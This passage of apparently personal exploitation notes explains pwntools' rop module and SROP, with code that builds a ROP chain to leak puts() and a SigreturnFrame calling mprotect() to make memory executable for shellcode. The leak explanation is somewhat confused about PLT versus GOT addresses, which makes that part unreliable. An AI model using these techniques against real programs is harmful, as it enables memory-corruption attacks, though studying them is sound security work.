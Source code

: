 ```python
 4370: Gadget(0x1112, ['pop rbp', 'ret'], ['rbp'], 0x10),
 4369: Gadget(0x1111, ['pop rbx', 'pop rbp', 'ret'], ['rbx', 'rbp'], 0x18),
 5059: Gadget(0x13c3, ['pop rdi', 'ret'], ['rdi'], 0x10),
 5057: Gadget(0x13c1, ['pop rsi', 'pop r15', 'ret'], ['rsi', 'r15'], 0x18),
 5053: Gadget(0x13bd, ['pop rsp', 'pop r13', 'pop r14', 'pop r15', 'ret'], ['rsp', 'r13', 'r14', 'r15'], 0x28),
 4122: Gadget(0x101a, ['ret'], [], 0x8)}
"""
```

You can see everything it has found. Now to build the ropchain. Say that I had leaked the `puts()` function at the Procedure Linkage Table (PLT) and want to obtain the GOT address of that function. If I had an overflow point, I could use a ropchain to leak that value. Since `puts()` expects the first argument to be in `RDI`, I can create that chain with:

```python
rop(rdi=exe.plt.puts)

print(rop.dump())

"""
0x0000:           0x13c3 pop rdi; ret
0x0008:           0x1030 puts
"""
```

As you can see, it sets up the ropchain properly to hit the `pop rdi; ret` instruction, which will add the address of the `puts()` function in the PLT as the next argument. I can now add the address of the `puts()` function in the PLT to call it, followed by the next instruction that should run, such as `main@PLT`. I can access the ropchain with the `bytes()` function.

```python
payload = bytes(rop) + p64(exe.plt.puts) + p64(exe.plt.main)
p.sendline(payload)
```

As I learn more, I'll add to this section. I feel like I'm only scratching the surface with the `rop` module in pwntools.

### SROP (Signal Return-Oriented Programming)

Without getting too far into it, the basic here is that if you have the ability to execute a `syscall` arbitrarily _and_ you don't have access to that many rop gadgets, you can always perform a `Sigreturn` syscall, which is a special call that will clean up after a signal handler has completed its execution. Basically this means that some process has essentially saved the state of the registers by pushing all of them onto the stack, and when whatever has happened has finished, it pops everything back off the stack in a very specific order into the registers as a means of handling that interrupt. If you can execute an arbitrary syscall, you can build a Sigreturn object in pwntools which will set up all the registers to whatever state you want. It's pretty handy in some of those tight situations.

For this example, I'm going to execute an `mprotect()` syscall, which will set any section of memory I specify to RWX, so I can push shellcode there. Basically, build a Sigreturn frame like so:

```python
SYSCALL_RET = 0xcafebabe
frame = SigreturnFrame(kernel='amd64')

frame.rax = constants.SYS_mprotect # mprotect() syscall value should be 0xa
frame.rdi = 0x400000               # memory to adjust
frame.rsi = 0x4000                 # size of memory to make executable
frame.rdx = 0x7                    # mode rwx
frame.rsp = 0xbaddcafe             # Wherever we want the stack pointer to be
frame.rip = SYSCALL_RET            # the syscall gadget to run this whole thing
```
